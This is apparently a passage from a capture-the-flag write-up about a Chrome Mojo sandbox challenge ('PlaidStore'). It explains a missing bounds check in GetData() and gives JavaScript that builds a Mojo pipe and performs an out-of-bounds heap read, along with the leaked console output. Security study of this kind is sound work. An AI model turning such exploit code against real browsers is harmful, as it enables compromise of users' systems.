 According to the above code, we can see that the renderer process can use `GetData()` and `SendData()` to exchange a set of bytes with `data_store_` which is a data member of the browser side interface. And it is actually a map:

```c++
std::map<std::string, std::vector<uint8_t> > data_store_;
```

### Exploiting the OOB

When the renderer invokes `GetData()` to load data from this map, it can pass a `uint32` number `count` as the number of bytes that will be loaded. However, the problem is that this function doesn't check the size of the `count`. It means that if attackers pass a number that is bigger than the size of the vector, they will have opportunities to read a byte beyond the bound of the vector.

Finally, I used the following code to read out of bound. 

```javascript
async function OOB(){
    console.log("[+] OOB read");
    //Create a MessagePipe
    var pipe = Mojo.createMessagePipe();
    var remote_side = new blink.mojom.PlaidStorePtr(pipe.handle0);
    Mojo.bindInterface(blink.mojom.PlaidStore.name, pipe.handle1, "context", true);
    //Create an vector with only 8 bytes in the map of browser side.
    remote_side.storeData("exp", [0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41]);
    //OOB read. Because this method can invoke a callback, it needs to ues await to 
    //invoke the callback function.
    //read 0x10 bytes from that vector. OOB!
    var leak_data = await remote_side.getData("exp", 0x10);
    //the data sent by browser side is wrapped into a structure named PlaidStore_GetData_ResponseParams
    //so we need to access its "data" property to get the array.
    console.log(tohex64(byte2smi(leak_data.data.slice(0x0, 0x8))));
    console.log(tohex64(byte2smi(leak_data.data.slice(0x8, 0x10))));

}
```

To trigger this vulnerability, we need to build a mojo connection between the browser and renderer first and it will need several steps. I didn't find a detailed document about mojo javascript system API so I learned these steps from others' write-ups. 

- Invoke `createMessagePipe()` to create a new pipe. This pipe has two handles which represent the two ends of this pipe.
- Create a new `PlaidStorePtr` object as the remote side of this mojo connection and it will hold one of the handles.
- Invoke `bindeInterface()` to Create the receiver side of this mojo connection which will be stored in the RFH and it will hold another handle.

After constructing the mojo connection, the above code can leak the following data but we don't know the meaning of this data so we need to figure out the surrounding memory layout of this vector to leak some important data. 

```
[0327/214954.367771:INFO:CONSOLE(89)] "0x4141414141414141", source: http://127.0.0.1:8000/exp_file/exp.html (89)
[0327/214954.367898:INFO:CONSOLE(90)] "0x348dfb4efdffffff", source: http://127.0.0.1:8000/exp_file/exp.html (90)
```
